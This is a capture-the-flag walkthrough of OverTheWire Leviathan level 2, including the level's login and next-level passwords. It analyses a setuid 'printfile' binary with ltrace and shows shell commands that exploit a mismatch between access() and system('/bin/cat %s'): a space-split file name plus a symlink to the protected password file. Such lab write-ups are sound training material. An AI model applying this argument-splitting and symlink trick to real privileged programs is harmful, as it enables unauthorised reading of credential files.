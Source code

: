 Challenge page is <a href="http://www.overthewire.org/wargames/leviathan/leviathan2.shtml">HERE</a>

<<CHALLENGE_CONTENT
Level 2

There is no information for this level.
If you would like to see the description of this level expanded, please consider to contribute to OTW!
CHALLENGE_CONTENT

Login
	Username: leviathan2
	Password: ougahZi8Ta

Comment by me:
	- There is the file 'printfile' in home directory
	- From using command 'strings ~/printfile', it seems to use command '/bin/cat %s' to print out the file
	- Although the program has suid bit set as 'leviathan3' and the file we are looking (/etc/leviathan_pass/leviathan3) has permission as -r-------- (leviathan3:leviathan3), it cannot read the file.
	- Maybe because of the program has euid=leviathan3, but doesnot setuid=leviathan3 yet
	- leviathan3:x:12003:12003:leviathan level 3:/home/leviathan3:/bin/bash

	- a method call at this
	0x0804853a <+102>:	call   0x80483c4 <access@plt>
	- with ltrace, I can see clearly how it runs, and fails:
	
		$ ltrace ./printfile /etc/leviathan_pass/leviathan3
		__libc_start_main(0x80484d4, 2, -10268, 0x80485b0, 0x8048610 <unfinished ...>
		access("/etc/leviathan_pass/leviathan3", 4)                  = -1
		puts("You cant have that file..."You cant have that file...
		)                           = 27
		+++ exited (status 1) +++

		$ ltrace ./printfile /etc/hosts
		__libc_start_main(0x80484d4, 2, -10252, 0x80485b0, 0x8048610 <unfinished ...>
		access("/etc/hosts", 4)                                      = 0
		snprintf("/bin/cat /etc/hosts", 511, "/bin/cat %s", "/etc/hosts") = 19
		system("/bin/cat /etc/hosts"127.0.0.1	localhost localhost.localdomain
		141.138.199.118	melissa.labs.overthewire.org
		141.138.202.88  irc.overthewire.org
		 <unfinished ...>
		--- SIGCHLD (Child exited) ---
		<... system resumed> )                                       = 0
		+++ exited (status 0) +++

	- This solution is from http://mozcode.blogspot.com/2012/07/leviathan-level-2-walkthrough.html, my thanks to MozCode

		leviathan2@melissa:~$ ls
		printfile
		leviathan2@melissa:~$ ./printfile /etc/leviathan_pass/leviathan3
		You cant have that file...
		leviathan2@melissa:~$ echo "abcdef" > /tmp/"anidear1 anidear2"
		leviathan2@melissa:~$ cat /tmp/"anidear1 anidear2"
		abcdef
		leviathan2@melissa:~$ ./printfile "/tmp/anidear1 anidear2"
		/bin/cat: /tmp/anidear1: No such file or directory
		/bin/cat: anidear2: No such file or directory
		leviathan2@melissa:~$ cd /tmp
		leviathan2@melissa:/tmp$ ln -s /etc/leviathan_pass/leviathan3 anidear2
		leviathan2@melissa:/tmp$ ~/printfile "/tmp/anidear1 anidear2"
		/bin/cat: /tmp/anidear1: No such file or directory
		Ahdiemoo1j
		leviathan2@melissa:/tmp$
